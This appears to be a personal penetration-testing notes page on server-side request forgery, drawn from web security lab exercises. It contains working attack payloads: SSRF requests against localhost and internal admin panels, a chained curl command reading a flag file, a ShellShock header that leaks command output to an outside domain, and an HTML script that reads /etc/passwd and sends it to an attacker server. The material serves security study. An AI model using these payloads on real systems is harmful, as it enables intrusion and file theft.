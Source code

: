 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

## SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.

Main point of intrests:
- Pages accessible only from localhost (like administrative panels)
- Services on other ports

>[!example]
>Original request:
>```http
>POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1>
>```
>
> Malicious request:
> ```http
> POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://localhost/admin
>```

Depending on the library used to issue the requests (eg. python [urllib](https://docs.python.org/3.8/library/urllib.html)), also other protocols may be supported and mis-used:
- `file://`
- `ftp://`
## SSRF attacks against other servers

SSRF against other servers often arises when the application server is able to interact with other back-end systems that are not directly reachable by users. 
These systems often have non-routable private IP addresses and often have a weaker security posture. In many cases, they contain sensitive functionality often accessibile  without authentication.

>[!example]
>Request against an internal, non-routed, administrative panel:
>
>```http
>POST /product/stock HTTP/1.1
Host: 0ae400fb040404ddc56df732005a00ae.web-security-academy.net
Cookie: session=jQGNv9ozVPtY2SdltFQVanHUn7mzqQsk
Content-Length: 73
Connection: close
>
>stockApi=http://192.168.0.100:8080/admin/delete?username=carlos&storeId=1
>```

>[!tip] Chain multiple SSRF!
>Remember that you can chain multiple SSRF in order to increase the attack surface! However, **you must url-encode parameters and special characters one time for every component you are going trough**:
>
>Eg with 3 nodes: `curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=cat%252520%25252Froot%25252Fflag%25252Etxt"` (`cat /root/flag.txt` has been url-encoded 3 times)
## Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF can be found using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques and sometimes also looking at response times.

>[!note]
>It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

Identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. However, it can still be leveraged to probe for other vulnerabilities. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure. [^1]

[^1]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

>[!example] Exploit a blind SSRF to exfiltrate usernames from targets vulnerable to ShellShock
>```http
GET /product?productId=1 HTTP/1.1
Host: 0a240091041ee9e2c2e8e317006a00a4.web-security-academy.net
Cookie: session=N0jjt4vE0NGhsIgr52oW9MFtvlSuBLv2
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).cp5wj8xh4c0qaefd19tzdw6dh4nvbuzj.oastify.com
Referer: http://192.168.0.§0§:8080/
Connection: close
>```

## Other attack surface

- Partial URLs in requests (eg. only a hostname or part of a URL path into request parameters)
- URLs within data formats
	- XML leading to SSRF using [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md), 
	- File converters or parsers and HTML files containing images (eg. wkhtmltopdf [^html2pdf] ) 
- Referer header or other headers ([Host header SSRF attacks (aka Routing-based SSRF)](Host%20Header%20attacks.md#Host%20header%20SSRF%20attacks%20(aka%20Routing-based%20SSRF)))
- [SSRF registering an arbitrary OpenID Connect client application](OpenID%20Connect%20attacks.md#SSRF%20registering%20an%20arbitrary%20client%20application)

[^html2pdf]: [wkhtmltopdf](https://wkhtmltopdf.org/downloads.html), wkhtmltopdf.org

PoC for leaking arbitrary files when converting HTML to PDF:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

## SSRF evasion and bypasses

- [Evading Restrictions](Evading%20Restrictions.md)
- [SSRF bypass list by h4x0r_fr34k](../../Readwise/Tweets/@h4x0r_fr34k%20on%20Twitter%20-%20Tweets%20From%20VAIDIK%20PANDYA.md#^2da607)
- [A New Era of SSRF](https://portswigger.net/research/top-10-web-hacking-techniques-of-2017#1)
- [DNS rebinding](../Services/DNS%20-%20Domain%20Name%20System.md#DNS%20rebinding)

## External resources and tools

- [HackTrick (SSRF)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [Targeting auxiliary systems](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#aux)
- [SSRFPwned](https://github.com/blackhatethicalhacking/SSRFPwned) - Checks for SSRF using built-in custom Payloads after fetching URLs from Multiple Passive Sources & applying complex patterns aimed at SSRF